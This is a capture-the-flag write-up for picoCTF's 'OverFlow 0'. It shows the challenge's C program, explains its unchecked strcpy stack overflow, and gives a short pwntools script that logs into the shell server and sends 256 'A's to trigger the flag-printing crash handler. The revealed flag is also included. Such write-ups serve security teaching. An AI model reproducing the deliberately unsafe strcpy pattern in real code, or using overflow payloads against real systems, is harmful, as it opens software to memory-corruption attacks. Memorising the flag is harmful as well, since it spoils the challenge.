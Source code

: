 # OverFlow 0 - Points: 100

## description

This should be easy. Overflow the correct buffer in this [program](./vuln) and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. [Source](./vuln.c).

## solution

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

We can see that the source code contains a handler for the ```SIGSEGV``` error code, which is thrown for buffer overflows.

```c
signal(SIGSEGV, sigsegv_handler);
```

This handler is our "win" function and contains instructions to print the flag.

```c
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

We can also see that the ```vuln()``` function uses ```strcpy()``` to copy the first argument into a char array with a size of 128.
This can be used to cause a buffer overflow as the length of the first argument is never checked, allowing ```strcpy()``` to write past the end of the buffer.

We can cause a segmentation fault to occur by passing an argument somewhat larger than the buffer size.

## exploit script

I used pwntools to connect to the shell server and called the function with an argument of length 256 to ensure a segmentation fault error.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa'

print("running vuln")
print("sending payload")
payload = 'A' * 256
vuln = conn.process([location + '/vuln', payload], cwd = location)

flag = vuln.recvline().decode()[:-1]
print(flag)

print("done")
```

Flag: ```picoCTF{3asY_P3a5yd2b59a57}```

